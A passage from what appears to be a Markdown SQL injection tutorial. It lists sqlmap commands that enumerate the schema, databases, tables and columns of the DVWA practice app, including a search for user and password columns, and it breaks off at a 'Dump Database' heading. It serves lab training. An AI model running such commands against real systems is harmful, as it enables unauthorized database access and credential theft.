 - Enumerate database schema.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --schema
```

- Enumerate database schema yet exclude system databases.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --schema --exclude-sysdbs
```

- Enumerate current database.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --current-db
```

- Enumerate available databases.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --dbs
```

#### 2.2.2 - Tables Enumeration

- Search particular keywords of database, tables and columns

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --search -D dvwa -T users -C user,password,username,emails
```

- Retrieve relation (tables)

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U -D dvwa --tables
```

- Count number of tables

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U -D dvwa --tables --count
```

#### 2.2.3 - Columns Enumeration

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U -D dvwa -T users --columns
```

--comments          Check for DBMS comments during enumeration
--statements        Retrieve SQL statements being run on DBMS
## 03 - Dump Database
